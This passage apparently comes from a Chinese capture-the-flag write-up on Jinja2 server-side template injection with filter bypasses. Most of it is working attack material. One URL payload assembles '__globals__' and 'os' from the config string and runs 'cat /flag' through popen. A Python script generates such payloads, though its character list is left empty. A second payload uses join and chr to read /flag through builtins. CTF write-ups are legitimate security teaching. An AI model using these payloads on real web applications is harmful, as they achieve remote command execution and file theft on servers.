 运行脚本后得到字符构造payload

`/?name={%print((lipsum|attr(((config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()))).get(((config|string|list).pop(2).lower()~(config|string|list).pop(42).lower())).popen(((config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower())).read())%}`

另一种方法

`/?name={%print(config|string|list|lower)%}`先执行这个获取字符
放入列表l中

```py
import requests
import urllib
import time
import re

# target = "__globals__" # (config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()
# target = "os" # (config|string|list).pop(2).lower()~(config|string|list).pop(42).lower()
target = "cat /flag" # (config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower()
l = 

flag = ''
for i in target:
    for j in range(len(l)):
        if i == l[j]:
            flag += "(config|string|list).pop({}).lower()~".format(j)
            # print(flag)
            break
print(flag[:-1])
```

- 替换字符

join

`?name={%set a=(config|string|list).pop(74)%}{%set globals=(a,a,dict(globals=1)|join,a,a)|join%}{%set init=(a,a,dict(init=1)|join,a,a)|join%}{%set builtins=(a,a,dict(builtins=1)|join,a,a)|join%}{%set a=(lipsum|attr(globals)).get(builtins)%}{%set chr=a.chr%}{%print(a.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read())%}`

原理
